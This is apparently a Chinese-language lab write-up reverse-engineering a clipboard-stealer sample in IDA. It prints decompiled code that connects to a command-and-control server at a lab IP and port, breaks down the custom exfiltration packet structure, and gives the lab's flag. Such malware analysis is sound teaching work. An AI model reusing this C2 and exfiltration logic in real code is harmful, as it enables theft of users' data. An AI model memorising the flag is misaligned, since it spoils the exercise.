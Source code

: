 ## Lab-Clipboard Stealer 5 -- sub_140001C80
Flag: `FLAG{C2_cU540m_Pr0t0C01}`
### 解題流程與思路
1. `connet_to_c2`
    目標是取得c2 server的IP和port number
    1. 先看到#12的socket function，他代表的意思是利用IPv4並且TCP的protocol進行溝通，相關的數值說明都在[MSDN](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-socket)，可以用前面教到的用m指令改變已知的constant名稱$\to$`v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);`
    2. 接著看到connect function中的`&name`，IDA原本解析成sockaddr，sockaddr是一種通用的結構格式，所以IDA解析出來的東西也沒有問題，不過如果是IPv4又是乙太網路的傳輸，會比較建議把結構改成==sockaddr_in==，[這一篇](https://blog.csdn.net/tao546377318/article/details/72780685)探討了兩者的區別(其實就只是把sockaddr原本的結構擴展而已)，這樣的話整體分析會更好
        :::spoiler 解析後
        ```cpp
        void __fastcall connect_to_c2(unsigned __int64 *a1)
        {
          unsigned __int64 v2; // rax
          struct sockaddr_in name; // [rsp+20h] [rbp-1B8h] BYREF
          struct WSAData WSAData; // [rsp+30h] [rbp-1A8h] BYREF

          if ( !WSAStartup(0x202u, &WSAData) )
          {
            name.sin_addr.S_un.S_addr = 0xA0AA8C0;      // IP: 192.168.10.10
            name.sin_port = htons(11187u);              // Port No.: 11187
            name.sin_family = AF_INET;
            v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
            *a1 = v2;
            connect(v2, &name, 16);
          }
        }
        ```
        :::
    :::info
    IP: 0xA0AA8C0 $\to$ `192.168.10.10`(little endian轉十進位)
    Port: `11187`
    sin.family: IPv4
    Protocol: TCP
    :::
2. `send_collected_data_to_c2`
    1. 先切分程式碼的功能
        ![](https://hackmd.io/_uploads/rkci81Aza.png)
        有時候通靈不一定很準，所以要適時的回頭檢查自己的猜測
    2. 前四行初始化的階段(malloc 0x4c然後塞三個dword)，應該是作者自定義的結構，可以利用Structures，自定義一個新的結構，大小就是0x4C，然後前三個可以定義為dd，並且把v4的結構改成packet(按Y)
        ![](https://hackmd.io/_uploads/ByQtqk0Mp.png)
    3. 各種rename
        * field_0看起來像是一個magic bytes，因為一開始附值之後，傳送過去server，再接收回來的packet也是有做驗證的動作，所以看起來是一個verification magic
        * field_8看起來就是接收來自server下達的command
        * field_C就比較多元，在case 1的時候是當作承接server給的encryption key(大小是8個bytes)，但在case 2是當作加密的cipher(大小是0x18個bytes)，所以我取名`enc_key_or_data`，另外大小是0x18(可以從memcpy的大小看出來)，所以可以按Y改變型別成`char[0x18]`
    :::info
    目前整體的流程
    ![](https://hackmd.io/_uploads/HJJB7gCf6.png)
    ![](https://hackmd.io/_uploads/BkHSXeCM6.png)
    :::
    